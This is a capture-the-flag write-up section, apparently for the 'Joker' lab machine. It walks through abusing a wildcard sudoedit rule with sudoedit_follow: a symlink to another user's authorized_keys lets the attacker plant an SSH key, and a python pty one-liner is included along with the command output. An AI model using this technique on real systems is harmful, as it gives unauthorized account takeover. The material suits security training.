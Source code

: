 Privilege Escalation to Alekos
============================

Now you should have a shell, and should be able to enumerate the system.  A quick search for sudo permission yields:
```bash
$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```
This lets us use sudoedit as user alekos on any location matching the pattern shown.  This should be quite easy to bypass, as it lets us edit any file with named `layout.html` in `/var/www/` thanks to the wildcards.  

If we look at the Default entires, we see `sudoedit_follow` is on and `sudoedit_checkdir` is off.  This simply means we can also edit any file followed in a symlink.

So firstly lets go to /var/www/layout and create our own folder to work in.
```bash
$ mkdir hello
$ cd hello
$ ls
```
Now we want to create a symlink to ssh authorized_keys file of alekos, allowing us to ssh in.  For this just create a keypair using `ssh-keygen` and copy the contents of the .pub file.

```bash
$  ln -s /home/alekos/.ssh/authorized_keys layout.html   
$ ls
layout.html
$ ls -la
total 8
drwxrwxr-x 2 werkzeug werkzeug 4096 Sep 22 21:24 .
drwxr-xr-x 3 werkzeug werkzeug 4096 Sep 22 21:24 ..
lrwxrwxrwx 1 werkzeug werkzeug   33 Sep 22 21:24 layout.html -/home/alekos/.ssh/authorized_keys
```
Now we just need to give ourselves a tty so we can actually use nano, which sudoedit uses.
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
werkzeug@joker:~/testing/hello$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
werkzeug@joker:~/testing/hello$ sudoedit -u alekos /var/www/testing/hello/layout.html
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue
```
So just place your value of id_rsa.pub in this file.  Now logging in as alekos is as simple as ssh'ing in with your private key.
